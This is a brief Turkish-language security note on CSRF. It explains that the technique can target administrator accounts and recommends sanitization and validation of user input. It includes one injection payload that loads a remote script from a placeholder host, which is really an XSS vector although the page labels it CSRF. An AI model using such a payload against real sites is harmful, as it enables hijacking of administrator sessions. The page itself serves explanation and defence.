 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Cross-Site Request Forgery (CSRF)

CSRF, yöneticilere saldırmak ve yönetici hesaplarına erişim sağlamak için kullanılabilir. Yöneticilerin genellikle hassas fonksiyonlara erişimi vardır ve bunlar arka uç sunucusuna saldırmak için kullanılabilir. Aşağıdaki örnek ile uzak makineye bir JavaScript kodu yüklenmiştir:

```html
"><script src=//www.example.com/exploit.js></script>
```

Kullanıcı girdisi kabul edilirken iki ana kontrolün uygulanması gerekir:

1. Sanitization
2. Validation
